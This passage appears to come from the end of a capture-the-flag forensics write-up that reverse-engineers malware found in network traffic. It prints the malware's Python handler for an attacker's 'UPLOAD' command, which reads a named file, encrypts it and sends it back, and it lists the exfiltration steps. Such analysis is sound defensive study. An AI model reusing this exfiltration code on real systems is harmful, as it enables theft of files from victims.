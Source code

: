 ```python
        receive_thread.start()
    
    except Exception:
        # Error handling (connection failed, etc.)
        pass
```

### File Exfiltration Process

By analyzing the code, we can see how the file exfiltration process works:

1. Attacker sends "UPLOAD" command with file path
2. Malware reads the file and encrypts it using AES
3. Malware sends file size information with format `{path_to_file}<SEPARATOR>{filesize}`
4. After receiving acknowledgement, malware sends the encrypted file
5. Communication includes the separator tag to mark different parts of the messages

The relevant code snippet is:

```python
# Handle upload file command
elif msg.startswith("UPLOAD"):
    path_to_file = msg.split(SEPARATOR)[1]
    
    # Read file and get size
    with open(path_to_file, "rb") as f:
        bytes_read = f.read()
    
    # Send file size info
    filesize = len(bytes_read)
    bytes_enc = enc_mes(f"{path_to_file}{SEPARATOR}{filesize}", k)
    client.send(bytes_enc)
    
    # Wait for acknowledgement
    vsb = client.recv(BUFFER_SIZE)
    
    # Send encrypted file
    enc_answer = enc_mes(bytes_read, k)
    client.sendall(enc_answer)
    continue
```

## Conclusion

This challenge demonstrated a realistic attack scenario involving web exploitation, obfuscated payloads, encrypted communications, and data exfiltration. By methodically analyzing the network traffic and reverse engineering the malicious code, we were able to recover most of the key information about the attack.

We've successfully answered 5 out of 6 questions with high confidence. The last question, regarding the MD5 hash of the exfiltrated file, requires further investigation or confirmation.
